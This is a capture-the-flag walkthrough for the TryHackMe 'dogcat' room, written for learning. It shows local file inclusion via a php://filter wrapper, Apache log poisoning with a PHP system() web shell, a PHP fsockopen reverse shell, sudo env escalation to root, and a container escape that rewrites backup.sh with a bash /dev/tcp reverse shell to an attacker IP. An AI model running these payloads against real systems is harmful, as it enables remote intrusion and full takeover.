



# dogcat CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **dogcat** CTF challenge on [TryHackMe](https://tryhackme.com/room/dogcat). 
---

we see open ports 22 and 80


here is a main site, we can pick between a dog and cat picture


if we take a look a the source code we see that picture location is: `dogs/9.jpg` we can try to access this picture directly via link `http://IP/dogs/9.jpg`




by trying to manipulate the parameter we see some first errors


next if we try to change the parameter to dogs we see php errors

```
Warning: include(dogs.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogs.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```


now if we try to include the index.php we see diffrent errors



```
Warning: include(dogsindex.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogsindex.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

first we see that one `.php` was added to our path that we tried to access

we can try with some php wrappers

we can try to use 

```
http://10.10.211.105/?view=php://filter/convert.base64-encode/resource=dogs/../index    # we use index without .php, it will be completed by server
```


no we need to simply decode from base64

```index.php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

now from source code we know about `ext` parameter, now we can try to use LFI to access /etc/passwd by using parameters view and ext, `/?view=dogs/../../../../../etc/&ext=passwd` so the result will be `dogs/../../../../../etc/passwd`


from passwd file we dont see any user with home folder, so we probably wont find ssh key

we can try checking apache logs in /var/log/apache2/access.log


it works we see our tries to access the server

now we can change User-Agent header and try log poissoning


we see our changed User-Agent reflected in page source

now we can try to insert some php code 

```
<?php system($_GET['cmd']); ?>
```

then we add cmd parameter to our request and we see ls output, now we have RCE from LFI


we can confirm by using id command


now we need to use some php reverse shell, we can use this one but we need to url encode special characters 

```
php -r '$sock=fsockopen("10.X.X.X",8888);system("/bin/bash <&3 >&3 2>&3");'
```


now we have shell access as www-data



we found first and second flag


looking at sudo -l and then checking GTFObins we have very easy way to become root


```
sudo /usr/bin/env /bin/sh
```

now we have root access and we can grab third flag from root directory


we might be inside container, we cant use python to upgrade shell and also we see .dockerenv


in /opt we see some script and tar file


we can try to manipulate the script to escape the container 

```
$ cd /opt/backups
$ echo "#!/bin/bash" > backup.sh
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.91.59/9999 0>&1'" >> backup.sh
```


now we wait for a short while and we are hit by another reverse shell 

we can grab last flag


# MACHINE PWNED
